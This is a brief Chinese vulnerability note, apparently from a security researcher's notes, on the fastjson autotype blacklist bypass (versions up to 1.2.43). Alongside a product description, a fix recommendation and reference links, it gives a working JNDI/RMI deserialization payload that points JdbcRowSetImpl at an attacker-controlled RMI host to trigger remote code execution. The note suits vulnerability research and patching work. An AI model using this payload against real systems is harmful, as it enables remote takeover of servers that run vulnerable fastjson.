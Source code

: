 ### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.43

由于过滤不严格，在开启autotype后导致类加载黑名单被绕过，造成命令执行

### 二 漏洞利用
```
{	"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://192.168.52.129:9999/rce_1_2_24_exploit","autoCommit":true]
}
```

### 三 漏洞修复
升级并开启safeMode或不用fastjson

### 四 漏洞分析
![img.png](img.png)

> 参考链接  
> https://www.cnblogs.com/0x28/p/14378838.html  
> https://www.cnblogs.com/huim/p/16566911.html
